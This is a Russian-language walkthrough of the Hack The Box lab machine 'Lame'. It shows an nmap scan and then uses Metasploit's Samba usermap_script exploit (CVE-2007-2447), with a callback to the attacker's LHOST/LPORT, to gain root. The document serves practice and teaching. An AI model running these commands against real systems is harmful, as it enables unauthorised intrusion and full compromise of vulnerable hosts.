

# Lame

###

.png>)

### Содержание:

Я считаю, что это самая простая машина на HTB, так как для ее прохождения потребуется только один эксплоит. Для начала мы просканируем порты с дефолтным nmap-скриптом. Затем, запустим метасплоит и найдем эксплоит для Samba версии 3.0.20(CVE-2007-2447). После того, как эксплоит отработает мы получим сразу рут-доступ.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.3 -oN nmap
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-30T12:13:06-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h35m41s, deviation: 3h32m09s, median: 5m40s
```

Используем флаг -Pn для принудительного сканирования портов, так как без него nmap считает, что хост "лежит".

### Ищем эксплоит в metasploit:

Теперь в метасплоите мы можем посмотреть эксплоиты для самбы версии **3.0.20**:

```
$ msfconsole
msf6 > search 3.0.20
```

Используем данный эксплоит:

```
exploit/multi/samba/usermap_script 2007-05-14 excellent    No    Samba "username map script" Command Execution
```

### Запускаем эксплоит и получаем рута:

```
msf6 > use exploit/multi/samba/usermap_script
```

Настраиваем так:


**RHOSTS** - удаленная машина, которую будем атаковать

**RPORT** - не меняем, он правильно выставлен

**LHOST** - свой айпи, можно узнать через:

```
$ ip r
```

**LPORT** - свой порт, который еще не занят, например, 9999.

```
msf6 exploit(multi/samba/usermap_script) > exploit
```


